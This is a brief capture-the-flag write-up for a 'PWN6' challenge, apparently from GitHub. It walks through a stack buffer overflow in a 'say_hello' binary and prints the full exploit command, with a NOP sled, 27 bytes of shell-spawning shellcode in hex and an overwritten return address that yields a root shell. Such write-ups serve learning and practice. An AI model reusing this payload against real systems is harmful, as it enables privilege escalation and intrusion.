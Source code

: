 # This writeup if from the GiraffeCTF which was called "PWN6".
 This task was quiet easy as finding where the intruction pointer was overwritten. The instruction pointer was hit at offset
216 bytes.
> ./say_hello $(python -c 'print "\x90"*189')
## After debugging i found where the start of the nopsled was in memory, i quickly looked a shellcode to use which spawns root.
The shellcode was 27 bytes. I calculated how much i had to cut the nopsled down i had to go by doing 216-27 which turned to 189 bytes.
## Now, Nopshell + shellcode + eip and the input looked like this:
> ./say_hello $(python -c 'print "\x90"*189+"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+"\x70\xed\xff\xff\xff\x7f"')

Executing it allowed me to open a file as root which contained the flag being
> "FLAG{WhoKilledUncleBen?}"
## Thanks for reading.
